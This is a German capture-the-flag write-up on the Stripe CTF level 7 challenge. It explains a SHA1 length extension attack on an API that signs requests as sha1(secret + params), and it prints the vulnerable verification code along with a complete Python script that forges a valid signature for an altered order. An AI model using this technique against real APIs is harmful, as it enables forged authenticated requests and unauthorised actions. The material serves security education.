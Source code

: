 LEVEL 07
========

SHA1 length extension attack

[http://www.vnsecurity.net/t/length-extension-attack/](http://www.vnsecurity.net/t/length-extension-attack/)

---

Bei Level 7 handelt es sich um einen SHA 1 Length Extension Attack.

    def verify_signature(user_id, sig, raw_params):
        # get secret token for user_id
        try:
            row = g.db.select_one('users', {'id': user_id})
        except db.NotFound:
            raise BadSignature('no such user_id')
        secret = str(row['secret'])

        h = hashlib.sha1()
        h.update(secret + raw_params)
        print 'computed signature', h.hexdigest(), 'for body', repr(raw_params)
        if h.hexdigest() != sig:
            raise BadSignature('signature does not match')
        return True

Es wird also eine Anfrage an den wafflecopter gesendet, dessen Signatur mit hashlib.sha1(api\_secret + params).hexdigest() generiert wird. Serverseitig muss diese Signatur mit hashlib.sha1(hinterlegtes\_secret + params).hexdigest() übereinstimmen. Wichtig ist auch, dass wir die Logs von jedem Nutzer einsehen können - auch von User 1, der Zugang zu der begehrten _Liege-Waffle_ hat. Daraus können wir sehen, welche Anfrage bereits von dem User gemacht wurde und welche Signatur dabei generiert wurde - das Secret bleibt unbekannt. Wie auf [VNSECURITY](http://www.vnsecurity.net/t/length-extension-attack/" target="_blank) beschrieben kann hier ein SHA1 Length Extension Attack angewendet werden, der es erlaubt die übertragenen Parameter zu verändern und eine neue valide Signatur zu generieren, ohne den Secret zu kennen. Wie und warum und was und überhaupt kann der interessierte Leser hier sehen: [Flickr's API Signature Forgery Vulnerability](http://netifera.com/research/flickr_api_signature_forgery.pdf). Nutzen wir einfach das Script und schon lässt uns der Server eine begehrte _Liege-Waffle_ haben!

    #!/usr/bin/env python
    #
    # sha1 padding/length extension attack
    # by rd@vnsecurity.net
    #

    import sys
    import base64
    import requests
    from shaext import shaext

    key = 'GHBD30wBR5DvjK'
    keylen = len(key)
    orig_msg = 'count=2&lat=37.351&user_id=1&long=-119.827&waffle=chicken' #< original message
    orig_sig = '38ee18cd57e1ca3ba2c624b876afe9ea41a8b45c'   #< original hash
    add_msg = '&waffle=liege'

    ext = shaext(orig_msg, keylen, orig_sig)
    ext.add(add_msg)

    (new_msg, new_sig) = ext.final()

    body = "%s|sig:%s" % (new_msg, new_sig)
    print "\nBODY: %s" % body
    resp = requests.post('https://level07-2.stripe-ctf.com/user-xxxxxxxxx/orders', data=body)
    #resp = requests.post('http://localhost:9233/orders', data=body)
    print resp.text